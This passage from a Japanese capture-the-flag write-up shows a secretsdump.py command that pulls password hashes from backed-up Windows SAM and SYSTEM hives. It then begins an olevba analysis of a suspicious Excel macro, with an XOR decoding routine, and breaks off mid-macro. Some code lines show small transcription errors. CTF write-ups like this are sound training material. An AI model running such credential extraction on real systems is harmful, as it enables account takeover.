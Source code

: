 ```secretsdump.py -sam sam.bak -system system.bak LOCAL```

[gpp-decrypt](https://github.com/t0thkr1s/gpp-decrypt) で解析すると flag が得られる．

### Macro Magic

> We managed to pull this excel spreadsheet artifact from one of our Outpost machines. Its got something sus happening under the hood. After opening we found and captured some suspicious traffic on our network. Can you find out what this traffic is and find the flag!

不審なマクロファイル (excel) とパケットキャプチャをもらえる．
不審な通信をキャプチャしているらしい．

```olevba Monke.xlsm```

結果を抜粋すると以下

```macro
Public Function anotherThing(B As String, C As String) As String
    Dim I As Long
    Dim A As String
    For I = 1 To Len(B)
        A = A & Chr(Asc(Mid(B, I, 1)) Xor Asc(Mid(C, (I - 1) Mod Len(C) + 1, 1)))
    Next I
    anotherThing = A
End Function

ublic Function importantThing()
    Dim tempString As String
    Dim tempInteger As Integer
    Dim I As Integer
    Dim J As Integer
    For I = 1 To 5
        Cells(I, 2).Value = WorksheetFunction.RandBetween(0, 1000)
    Next I
    For I = 1 To 5
        For J = I + 1 To 5
            If Cells(J, 2).Value < Cells(I, 2).Value Then
                tempString = Cells(I, 1).Value
                Cells(I, 1).Value = Cells(J, 1).Value
                Cells(J, 1).Value = tempString
                tempInteger = Cells(I, 2).Value
                Cells(I, 2).Value = Cells(J, 2).Value
                Cells(J, 2).Value = tempInteger
            End If
        Next J
    Next I
End Function



Public Function totalyFine(A As String) As String
    Dim B As String
    B = Replace(A, " ", "-")
    totalyFine = B
End Functio



Sub macro1()
    Dim Path As String
    Dim wb As Workbook
    Dim A As String
    Dim B As String
```